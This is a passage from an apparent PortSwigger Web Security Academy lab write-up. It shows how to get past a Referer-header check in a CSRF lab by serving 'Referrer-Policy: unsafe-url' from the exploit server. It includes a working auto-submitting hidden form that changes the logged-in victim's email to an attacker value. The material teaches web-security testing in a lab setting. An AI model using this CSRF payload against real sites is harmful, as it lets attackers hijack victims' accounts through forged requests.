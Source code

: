 By default the browser have a security policy for the referrer header, if you search for **unsafe-url referrer** we can try to inject this header to accomplish this.

```html
Referrer-Policy: unsafe-url
```

In head section of our exploit server add the header.

How would the server exploit look?

File:
```
/0a5700db03d2d47c802a3f0e009c0091.web-security-academy.net
```

Head:
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

Body:
```html
<form class="login-form" name="change-email-form" action="https://0a5700db03d2d47c802a3f0e009c0091.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
document.forms[0].submit();
</script>
```

If you see the request you're going to see that the referer header change.

